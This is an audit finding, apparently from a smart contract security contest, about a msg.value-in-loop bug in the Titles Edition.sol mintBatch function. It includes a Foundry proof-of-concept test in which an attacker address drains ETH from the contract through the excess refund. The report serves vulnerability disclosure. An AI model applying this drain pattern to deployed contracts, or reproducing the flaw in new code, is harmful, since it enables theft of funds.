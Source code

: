 Prehistoric Mercurial Monkey

high

# The mintBatch function works incorrectly, which could case the revert or the Edition.sol being drained.

## Summary
The mintBatch receives the tokenId array as input. Then, it execute the collectMintFee in the loop, the main reson for it is to collect respective fees for the tokenId's. However the function will not work as intended due to msg.value behaviour in the loop.
## Vulnerability Detail
Let's take a look on the loop.
```solidity
for (uint256 i = 0; i < tokenIds_.length; i++) {
            Work storage work = works[tokenIds_[i]];
            // wake-disable-next-line reentrancy
            FEE_MANAGER.collectMintFee{value: msg.value}(
                this, tokenIds_[i], amounts_[i], msg.sender, address(0), work.strategy
            );
            _checkTime(work.opensAt, work.closesAt);
            _updateSupply(work, amounts_[i]);
        }
```
Imagine:
1. User wants to mint tokenId (1,2) in the loop
2. User send respective msg.value to cover the collectMintFee for the two tokenId's, in our case it is 0.01275 ether for each = 0.0255 ether
3. The first operation of the collectMintFee is executed in the loop. It consumes all 0.0255 ether
4. However, the second iteration that is dedicated for collectingFees for the tokenId 2 will not work, and revert because there is not enough funds to execute the second iteration (because the first iteration consumed all the msg.value)
5. The function will revert and doesn't allow to collect the fee for the multiple tokenId's
6. HOWEVER! If the contract have some funds, they could be drained! The second iteration will retrieve the funds directly from the contract and return to the attacker via _refundExcess() function that is executed in the end.

This means that using msg.value in a for- or while-loop, without extra accounting logic, will either lead to the transaction reverting (when there are no longer sufficient funds for later iterations), or to the contract being drained (when the contract itself has an Eth balance)
# Proof of Concept
```solidity
function setUp() public {
        edition = new Edition();
        feeManager = new FeeManager(address(0xdeadbeef), address(0xc0ffee), address(new MockSplitFactory()));
        graph = new TitlesGraph(address(this), address(this));

        edition.initialize(
            feeManager,
            graph,
            address(this),
            address(this),
            Metadata({label: "Test Edition", uri: "ipfs.io/test-edition", data: new bytes(0)})
        );

        edition.publish(
            address(1), // creator
            100, // maxSupply
            0, // opensAt
            0, // closesAt
            new Node[](0), // attributions
            Strategy({
                asset: address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE),
                mintFee: 0.01 ether,
                revshareBps: 2500, // 25%
                royaltyBps: 250 // 2.5%
            }),
            Metadata({label: "Best Work Ever", uri: "ipfs.io/best-work-ever", data: new bytes(0)})
        );

        edition.publish(
            address(1), // creator
            100, // maxSupply
            0, // opensAt
            0, // closesAt
            new Node[](0), // attributions
            Strategy({
                asset: address(0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE),
                mintFee: 0.01 ether,
                revshareBps: 2500, // 25%
                royaltyBps: 250 // 2.5%
            }),
            Metadata({label: "Best Work Ever", uri: "ipfs.io/best-work-ever", data: new bytes(0)})
        );

        // Normally done by the TitlesCore, but we're testing in isolation
        feeManager.createRoute(edition, 1, new Target[](0), address(0));
        feeManager.createRoute(edition, 2, new Target[](0), address(0));
    }

function test_mintBatch() public {
        
        address attacker = address(8888);
        vm.deal(address(attacker), 0.0255 ether);

        uint256[] memory tokenIds = new uint256[](2);
        tokenIds[0] = 1;
        tokenIds[1] = 2;

        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 1;
        amounts[1] = 1;

        //maybe we need to publish before

        vm.deal(address(edition), 1 ether); //if we delete it, the function will revert because all msg.value is consumed first

        console.log("The balance of the Edition contract before the batch call is:", address(edition).balance);
        console.log("The balance of the attacker before the batch call is:", address(attacker).balance);


        vm.prank(address(attacker));
        edition.mintBatch{value: 0.0255 ether}(address(attacker), tokenIds, amounts, "0x");

        console.log("The balance of the Edition contract after the batch call is:", address(edition).balance);
        console.log("The balance of the attacker after the batch call is:", address(attacker).balance);    
    }
```

## Impact
Function will not work / Funds could be drained

## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L277-L297

## Tool used

Manual Review / Foundry

## Recommendation
I would suggest avoid using msg.value in a loop
